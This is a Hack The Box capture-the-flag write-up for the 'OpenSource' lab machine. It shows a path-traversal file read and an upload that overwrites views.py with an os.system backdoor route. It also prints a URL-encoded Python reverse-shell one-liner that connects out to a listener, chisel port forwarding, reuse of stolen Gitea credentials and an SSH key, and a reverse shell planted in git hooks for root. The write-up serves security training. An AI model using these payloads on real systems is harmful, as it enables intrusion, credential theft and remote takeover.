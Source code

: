 ```yaml
---
draft: true
news_post: false
author:
  - paul-knight
title: HTB Writeup - OpenSource
date: 2022-10-19T14:28:43.259Z
usePageBundles: true
featureImage: images/opensource.png
thumbnail: images/opensource.png
shareImage: images/opensource.png
codeLineNumbers: true
codeMaxLines: 10
figurePositionShow: true
showRelatedInArticle: true
tags:
  - Application Security
categories:
  - Education & Training
series:
  - hack the box
---
```

# OPENSOURCE
### User flag

As always nmap tcp port scan

```shell
$ sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn -oN allports 10.10.11.164 -oN allports
PORT     STATE    SERVICE REASON
22/tcp   open     ssh     syn-ack ttl 63
80/tcp   open     http    syn-ack ttl 62
3000/tcp filtered ppp     no-response
```

Then I visited the website played with the upload files subdomain and found some errors that indicated that the flask application was in debug mode, so to make sure I fuzzed the visited and found what I expected.

```shell
$ ffuf -w ~/wordlist/directory-list-2.3-big.txt:FUZZ -u http://10.10.11.164/FUZZ -v -o fuzzdir

[Status: 200, Size: 2489147, Words: 9473, Lines: 9803, Duration: 124ms]
| URL | http://10.10.11.164/download
    * FUZZ: download

[Status: 200, Size: 1563, Words: 330, Lines: 46, Duration: 48ms]
| URL | http://10.10.11.164/console
    * FUZZ: console

```

The console was protected by a pin so I did some research to see if there was anyway to crack it and found [this](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug). I needed someway to get a LFI to hack the console.
Eventually by reading the source code I found some protection against *../* but not against *..//* in utils.py

```python
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
```
So via BurpSuite I changed the name of the file to ..//..//..//..//etc/passwd and I was able to download the file

```
GET /uploads/..//..//..//..//etc/passwd HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.11.164/upcloud
Upgrade-Insecure-Requests: 1
```

 Next I tried cracking into the console but I came to the conclusion it was a rabbit hole since it was impossible for me to crack the PIN. However I thought that if I could manipulate the GET request I could also do it with the POST request and change the python code. So I added a bit of code to views.py

```python
@app.route('/dasor')
def rce():
    return os.system(request.args.get('cmd'))
```

And uploaded it with a POST requests

```
POST /upcloud HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------12202201532330092291110617912
Content-Length: 1008
Origin: http://10.10.11.164
Connection: close
Referer: http://10.10.11.164/upcloud
Upgrade-Insecure-Requests: 1

-----------------------------12202201532330092291110617912
Content-Disposition: form-data; name="file"; filename="..//app/app/views.py"
Content-Type: text/x-python
...
```

Then I went to the domain I had just created and started a reverse shell

```
http://10.10.11.164/dasor?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.0.1%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

But I was not a user on the system I was root but ... in a container. At that point I remebered that port number 3000 so I tried to use chisel for port forwarding. Also I had to compile it staticly to use it in the container. I uploaded the binary through the page and fowarded the port

```shell
#on kali
$ chisel server -p 7777 --reverse
#on victim
$ ./chisel client 10.10.14.74:7777 R:3000:172.17.0.1:3000
```

The port contained gitea with a user called dev01 I found his credentials on the .git folder that comes with the source code on the brach dev. Once we login we find his ssh key so I copied it to my machine and logged via ssh.

### Root flag

As always I used linepeas but this time it did not found anything critical. I realised that the user had a git directory in his home but I did not found any clue until I tiped git log once again and saw another new commit. Was someone else on the machine or was it automatic?. To clear that doubt I uploaded and used pspy64 and found out every minute a commit was made.

Firstly I checked on crontab but it was empty so I did some research and found you can schedule git commands inside the .git/hooks so I looked inside and found a lot of files and added a reverse shell to one of them, one minute later I was root.

I later found out that you were supposed to go into the folder by yourself and delete the .sample that the files had since with the .sample they do not get executed. However in my instance someone already did it.
